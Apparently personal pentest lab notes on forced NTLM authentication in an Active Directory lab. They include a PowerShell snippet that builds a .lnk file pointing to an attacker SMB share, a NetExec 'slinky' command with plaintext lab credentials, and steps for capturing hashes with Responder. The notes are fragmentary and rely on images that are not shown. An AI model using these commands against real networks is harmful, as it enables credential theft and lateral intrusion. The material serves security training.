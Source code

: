 ```text
$objShell = New-Object -ComObject WScript.shell 
$lnk = $objShell.CreateShortcut("C:\test.lnk") 
$lnk.TargetPath = "\\192.168.138.149\@test.png" 
$lnk.WindowStyle = 1 
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" $lnk.Description = "Test" 
$lnk.HotKey = "Ctrl+Alt+T" 
$lnk.Save()
```
Additional resources for forced authentication: [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)

Automated attack using CME/NetExec:

netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149



---
![[Pasted image 20240804180429.png]]

![[Pasted image 20240804180450.png]]

rename with a start one of thodr : @ or --
![[Pasted image 20240804180849.png]]


in file share hydra-dc :
![[Pasted image 20240804181350.png]]

launch responder and reload the file share :
![[Pasted image 20240804181551.png]]

to see hashes : add : -v in the responder command

#### another way:
server is attacker ip: to punisher
![[Pasted image 20240804181724.png]]

